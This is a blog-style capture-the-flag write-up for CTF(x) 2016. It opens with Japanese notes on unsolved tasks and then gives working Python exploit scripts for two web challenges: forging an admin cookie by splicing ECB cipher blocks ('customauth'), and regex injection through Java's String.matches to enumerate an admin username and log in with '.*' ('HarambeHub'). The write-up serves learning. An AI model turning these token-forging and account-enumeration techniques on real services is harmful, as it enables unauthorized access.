```yaml
---
layout: post
redirect_from:
  - /blog/2016/08/29/ctf-x-2016/
date: "2016-08-29T21:12:07+09:00"
tags: [ "ctf", "writeup", "ctf-x" ]
"target_url": [ "http://ctfx.io/" ]
---
```


# CTF(x) 2016

pwnは遅れて公開されたのだが、2日目がkatagaitai勉強会と(あとworld codesprintや学校とも)で衝突を起こしており、参加時間が取れずpwnを開けなかった。
web50 north koreaをtukejonnyさんが解いててエスパーっぽくてプロかったのが印象的。
for100 passwordはfcrackzip + pkcrackというのは合っていて既知平文も正しかったのだが、`pkcrack`に渡すoptionsでミスがあったため解けず。
misc150 cafebabeも方針は合っていたが文字読み取りの精度が足らずで解けず。python/PILで書いたのは速度面で明らかな失敗であった。


## customauth

The flag is obtained by a ciphertext of a json which contains `"admin":true`.
It uses a block cipher in ECB mode.
You can construct the ciphertext chunk-wise, using the fact that the correspondence of plaintexts and ciphertexts are independent of positions and other chunks.

I needed to send the `admin` field with empty string to get the chunk like `AAAAAA","admin":`.

``` python
#!/usr/bin/env python3
import re
import json
import requests
import collections

chunk = lambda s, l: [s[i:i+l] for i in range(0, len(s), l)]

def encrypt(url, payload):
    resp = requests.post(url, data=payload, allow_redirects=False)
    auth = resp.headers['Set-Cookie'].split()[0][5:-1]
    return auth

def stringify(params): # for ordering and spaces
    return '{' + ','.join(['"%s":%s' % (k, json.dumps(params[k])) for k in params]) + '}'

def check_encrypt(url, params, plain):
    t = stringify(params)
    t = chunk(t, 16)
    i = t.index(plain)
    s = encrypt(url, params)
    assert len(s) % 32 == 0
    s = chunk(s, 32)
    print(repr(plain), s[i])
    return s[i]

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='problems.ctfx.io')
parser.add_argument('port', nargs='?', default=7001, type=int)
args = parser.parse_args()

f = lambda x, *ys: check_encrypt('http://{}:{}/login'.format(args.host, args.port), collections.OrderedDict(ys), x)

auth = ''
auth += f(r'{"username":"AAA', ('username', r'AAA'), ('password', 'password'))
auth += f(r'AAAAAA","admin":', ('username', r'AAAAAAAAA'), ('admin', ''), ('password', 'password'))
auth += f(r'true,           ', ('username', r'AAAtrue,           '), ('password', 'password'))
auth += f(r'"password":"A"}',  ('username', r'A'), ('password', 'A'))
print('auth=' + auth)

resp = requests.get('http://{}:{}'.format(args.host, args.port), headers={ 'Cookie': 'auth=' + auth })
flag = re.search(r'ctf\([^)]*\)', resp.text).group(0)
print(flag)
```

## HarambeHub

Inject your regular expressions.
Since it compares strings with `String.matches`, not `String.equals`, you can use `.*` instead of the true password.

``` java
    public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }
```

The password is trivial, but the username who has a flag is unknown.
You know your username is `[Member] foo` and not simply `foo`, so you can think that an user `[Admin] bar` exists.
You can do binary search to determine the exact username, and you will get the flag.

``` sh
$ curl 'http://problems.ctfx.io:7003/users?username=\\[A.*&password=password&real_name=real_name' -X POST
FAILED: User with that name already exists!
```

``` python
#!/usr/bin/env python3
import string
import time
import urllib.request
import urllib.parse

def query_users(username, password, real_name):
    url = 'http://problems.ctfx.io:7003/users?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password, 'real_name': real_name }))
    print('POST', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    req.method = 'POST'
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
    return query_users(username, password, real_name)
def query_name(username, password):
    url = 'http://problems.ctfx.io:7003/name?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password }))
    print('GET', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
def match_users(regex):
    s = query_users(regex, 'password', 'real_name')
    if s == 'FAILED: User with that name already exists!':
        return True
    else:
        assert s.startswith('OK: Your username is ')
        return False

s = '' # Arxenixisaloser
while True:
    for letters in [ string.ascii_lowercase, string.ascii_uppercase, string.digits ]:
        if not match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[-1])):
            continue
        l = 0
        r = len(letters) - 1
        while l < r: # [l, r]
            m = (l + r) // 2
            if match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[m])): # c <= m
                r = m
            else: # m < c
                l = m+1
        s += letters[l]
        break
    else:
        break
    print('FLAG', s)
print(query_name(r'[Admin] ' + s, '.*')) # ctf(h4r4mb3_d1dn1t_d13_4_th1s_f33ls_b4d)
```
